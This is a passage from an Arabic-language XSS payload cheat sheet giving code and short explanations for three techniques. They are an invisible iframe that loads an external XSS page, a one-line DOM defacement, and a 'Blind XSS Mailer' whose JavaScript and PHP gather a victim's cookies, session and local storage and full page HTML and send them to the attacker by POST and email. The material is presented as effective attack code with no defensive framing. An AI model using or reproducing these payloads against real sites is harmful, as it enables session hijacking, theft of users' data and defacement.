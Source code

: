 **الكود:**
```
<iframe src="http://example.com/xss.php?a=<svg onload=alert(document.domain)>" style=display:none></iframe>
```

**لماذا يعمل؟**
- `<iframe>` يُحمل صفحة خارجية تحتوي على XSS.
- `style=display:none` يجعل الإطار غير مرئي.
- يعمل إذا لم يمنع XFO التحميل.

**الخلاصة:**
تضمين XSS خارجي باستخدام الكود أعلاه فعال لأنه يُنفذ XSS في سياق النطاق الهدف عبر `<iframe>` غير مرئي.

---

## 3. تشويه افتراضي بسيط (Simple Virtual Defacement)
{ #XSS_DOM }
**الشرح البسيط:**
يُستخدم لتغيير مظهر الموقع للضحية باستبدال محتوى الصفحة بـ HTML جديد، مثل عرض رسالة "غير موجود".

**الكود:**
```
document.documentElement.innerHTML='<h1>Not Found</h1>'
```

**لماذا يعمل؟**
- `document.documentElement.innerHTML` يُعدل محتوى الصفحة بالكامل.
- يُنفذ على جانب العميل، مما يؤثر على عرض الضحية فقط.
- يتجاوز الحماية إذا لم يكن هناك تنظيف لـ DOM.

**الخلاصة:**
التشويه الافتراضي باستخدام الكود أعلاه فعال لأنه يُغير محتوى الصفحة مباشرة عبر DOM.

---

## 4. بريد XSS أعمى (Blind XSS Mailer)
{ #XSS_exploit  }
**الشرح البسيط:**
يُستخدم كسكربت خارجي لإرسال بيانات الضحية (مثل الكوكيز، URL، التخزين المحلي) إلى بريد إلكتروني عبر خادم PHP يتطلب خادم بريد (مثل Postfix).

**الكود:**
```
<?php header("Content-type: application/javascript"); ?>
var mailer = '<?= "//" . $_SERVER["SERVER_NAME"] . $_SERVER["REQUEST_URI"] ?>';
var msg = 'USER AGENT\n' + navigator.userAgent + '\n\nTARGET URL\n' + document.URL;
msg += '\n\nREFERRER URL\n' + document.referrer + '\n\nREADABLE COOKIES\n' + document.cookie;
msg += '\n\nSESSION STORAGE\n' + JSON.stringify(sessionStorage) + '\n\nLOCAL STORAGE\n' + JSON.stringify(localStorage);
msg += '\n\nFULL DOCUMENT\n' + document.documentElement.innerHTML;
var r = new XMLHttpRequest();
r.open('POST', mailer, true);
r.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
r.send('origin=' + document.location.origin + '&msg=' + encodeURIComponent(msg));
<?php
header("Access-Control-Allow-Origin: " . $_POST["origin"]);
$origin = $_POST["origin"];
$to = "myName@myDomain";
$subject = "XSS Blind Report for " . $origin;
$ip = "Requester: " . $_SERVER["REMOTE_ADDR"] . "\nForwarded For: ". $_SERVER["HTTP_X_FORWARDED_FOR"];
$msg = $subject . "\n\nIP ADDRESS\n" . $ip . "\n\n" . $_POST["msg"];
$headers = "From: report@myDomain" . "\r\n";
if ($origin && $msg) mail($to, $subject, $msg, $headers);
```